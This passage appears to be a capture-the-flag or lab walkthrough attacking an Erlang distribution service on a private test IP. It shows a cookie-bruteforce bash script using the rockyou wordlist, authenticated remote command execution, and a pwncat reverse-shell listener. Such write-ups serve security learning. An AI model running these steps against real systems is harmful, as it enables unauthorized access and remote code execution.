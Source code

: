 ```python
print(f"seed-start: {seed_start}")
print(f"seed-end: {seed_end}")
```

`chmod u+x ./calculate_seed_boundaries.py`

`./calculate_seed_boundaries.py`:
```
seed-start: 120000000000 ←
seed-end: 480000000000 ←
```

`./bruteforce-erldp.py --interval 120000000000,480000000000,1000 192.168.56.142 35327`:
```
Namespace(interval=[(120000000000, 480000000000, 1000.0)], distribution=None, seed_full_space=False, sim=16, target='192.168.56.142', port=33211)

[...]
```

</❌ Failed Step.>

`./shell-erldp.py 192.168.56.142 35327 "TEST" "whoami"`:
```
wrong cookie, auth unsuccessful ←
```

`vim ./erlang_cookie_fuzzer.sh`:
```bash
#!/bin/bash

for word in $(cat /usr/share/wordlists/rockyou.txt); do
	if ! ./shell-erldp.py 192.168.56.142 35327 "$word" "whoami" 2>&1 | grep --silent "wrong cookie, auth unsuccessful"; then
		echo "[+] cookie:$word"
		break
	fi
done
```

`chmod u+x ./erlang_cookie_fuzzer.sh`

`./erlang_cookie_fuzzer.sh`:
```
[+] cookie:batman ←
```

`./shell-erldp.py 192.168.56.142 35327 "batman" "whoami"`:
```
[*] authenticated onto victim ←

[...]
```

`pwncat-cs -lp 4444`:
```
[13:13:13] Welcome to pwncat 🐈!
bound to 0.0.0.0:4444 ←
```
